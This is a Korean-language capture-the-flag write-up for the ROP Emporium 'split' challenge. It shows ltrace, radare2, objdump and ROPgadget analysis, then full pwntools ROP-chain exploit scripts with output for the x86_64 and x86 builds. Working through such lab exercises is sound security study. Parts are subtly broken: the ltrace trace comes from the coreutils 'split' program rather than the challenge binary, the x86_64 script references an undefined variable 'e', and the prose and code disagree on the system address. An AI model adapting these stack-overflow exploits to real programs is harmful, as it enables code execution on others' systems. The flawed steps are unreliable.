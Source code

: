 # [split](https://ropemporium.com/challenge/split.html)
<br />

**Discription:**
> The elements that allowed you to complete ret2win are still present, they've just been split apart.
Find them and recombine them using a short ROP chain.
<br />
<br />

# x86_64

**Binary Protections:**
```yaml
[*] '/home/kali/pico/split'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
<br />

해당 문제는 `system("/bin/cat flag.txt")`를 호출하면 풀리는 간단한 문제입니다. 아래 과정을 통해 풀이를 진행하겠습니다.

```yaml
$ ltrace split
strrchr("split", '/')                                                                          = nil
setlocale(LC_ALL, "")                                                                          = "en_US.UTF-8"
bindtextdomain("coreutils", "/usr/share/locale")                                               = "/usr/share/locale"
textdomain("coreutils")                                                                        = "coreutils"
__cxa_atexit(0x5625290abe10, 0, 0x5625290b6008, 0)                                             = 0
getopt_long(1, 0x7ffe0781e6a8, "0123456789C:a:b:del:n:t:ux", 0x5625290b5860, nil)              = -1
strcmp("-", "-")                                                                               = 0
posix_fadvise(0, 0, 0, 2)                                                                      = 0
fstat(0, 0x5625290b6300)                                                                       = 0
getpagesize()                                                                                  = 4096
aligned_alloc(4096, 0x40001, 0x40000, 0x3fc00)                                                 = 0x7f0559721000
read(0, "\n", 262144)                                                                          = 1
...
read(0^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```
우선 `ltrace`를 통해 `read()`가 `262144`만큼 읽고, 스택 버퍼오버플로우가 발생하는 것을 알 수 있습니다.

```yaml
$ r2 split
aWARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
[0x004005b0]> aaa
...
[0x004005b0]> afl
0x00400550    1      6 sym.imp.puts
0x00400560    1      6 sym.imp.system
0x00400570    1      6 sym.imp.printf
0x00400580    1      6 sym.imp.memset
0x00400590    1      6 sym.imp.read
0x004005a0    1      6 sym.imp.setvbuf
0x004005b0    1     42 entry0
0x004005f0    4     37 sym.deregister_tm_clones
0x00400620    4     55 sym.register_tm_clones
0x00400660    3     29 entry.fini0
0x00400690    1      7 entry.init0
0x004006e8    1     90 sym.pwnme
0x00400742    1     17 sym.usefulFunction
0x004007d0    1      2 sym.__libc_csu_fini
0x004007d4    1      9 sym._fini
0x00400760    4    101 sym.__libc_csu_init
0x004005e0    1      2 sym._dl_relocate_static_pie
0x00400697    1     81 main
0x00400528    3     23 sym._init
[0x004005b0]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   ---------- GLOBAL FUNC       __libc_start_main
7   ---------- WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf
[0x004005b0]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
6   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
`radare2`를 통해 바이너리에서 `system()`을 사용하고 있고, `"/bin/cat flag.txt"`의 주소가 `0x00601060`인 것을 알 수 있습니다. 그리고 `pwnme`, `usefulFunction`, `main` 심볼들이 존재하는 것을 알 수 있습니다.

```yaml
$ objdump -d split
...
0000000000400742 <usefulFunction>:
  400742:       55                      push   %rbp
  400743:       48 89 e5                mov    %rsp,%rbp
  400746:       bf 4a 08 40 00          mov    $0x40084a,%edi
  40074b:       e8 10 fe ff ff          call   400560 <system@plt>
  400750:       90                      nop
  400751:       5d                      pop    %rbp
  400752:       c3                      ret
  400753:       66 2e 0f 1f 84 00 00    cs nopw 0x0(%rax,%rax,1)
  40075a:       00 00 00
  40075d:       0f 1f 00                nopl   (%rax)
...
```
문제에서 제공하는 `usefulFunction()`는 `system()`을 호출해줍니다. 하지만 ROP로 `system("/bin/cat flag.txt")`를 만들어 직접 호출을 해줄 것이므로, 바로 호출이 가능한 `0x40074b`를 사용해줍니다.

```yaml
$ ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```
다음으로 `system()`의 인자인 `/bin/cat flag.txt`를 설정해줘야 하기 때문에 `rdi` 가젯을 확보합니다.

```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./split")
[+] Starting local process './split': pid 33083
>>> p.send(cyclic(200, n=8))
>>> p.wait()
[*] Process './split' stopped with exit code -11 (SIGSEGV) (pid 33083)
>>> Corefile("./core.33083")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.33083'
    Arch:      amd64-64-little
    RIP:       0x400741
    RSP:       0x7ffe67faeab8
    Exe:       '/home/kali/pico/split' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.33083')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
마지막으로 반환주소를 덮으려면, 버퍼와 반환주소 사이의 거리를 알아야 합니다. 위 과정으로 두 주소 간의 거리는 40 입니다. 알아낸 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

p = process("./split")
    
rdi = 0x4007c3
str = 0x601060
system = e.sym["system"]
pay = flat({0x28:rdi}, str, system)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> $
```

<br />
<br />

# x86

```python
from pwn import *

context.log_level = "error"
context.arch = "x86"

p = process("./split32")

flag = 0x0804a030   # "/bin/cat flag.txt"
system = 0x804861a

pay = flat({44:system}, flag)  # "\x00"*44 + call system("/bin/cat flag.txt")

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```
